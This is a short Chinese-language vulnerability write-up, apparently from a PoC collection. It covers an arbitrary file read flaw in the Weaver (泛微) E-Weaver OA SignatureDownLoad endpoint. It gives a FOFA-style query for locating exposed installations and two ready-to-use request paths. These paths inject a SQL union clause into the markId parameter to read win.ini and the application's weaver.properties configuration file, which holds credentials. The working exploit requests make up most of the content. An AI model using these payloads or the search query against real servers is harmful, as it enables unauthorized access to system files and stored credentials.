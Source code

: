 # 泛微OA E-Weaver SignatureDownLoad 任意文件读取漏洞

## 漏洞描述

泛微OA E-Weaver SignatureDownLoad接口存在任意文件读取漏洞，攻击者通过漏洞可以读取服务器任意文件

## 漏洞影响

泛微OA E-Weaver

## 网络测绘

```
app="泛微-E-Weaver"
```

## 漏洞复现

![image-20220706133659005](./images/202207061336151.png)

验证POC

```
/weaver/weaver.file.SignatureDownLoad?markId=0%20union%20select%20%27C:/Windows/win.ini%27
```

![image-20220706133707852](./images/202207061337908.png)

```
/weaver/weaver.file.SignatureDownLoad?markId=0%20union%20select%20%27../ecology/WEB-INF/prop/weaver.properties%27
```

![image-20220706133717202](./images/202207061337932.png)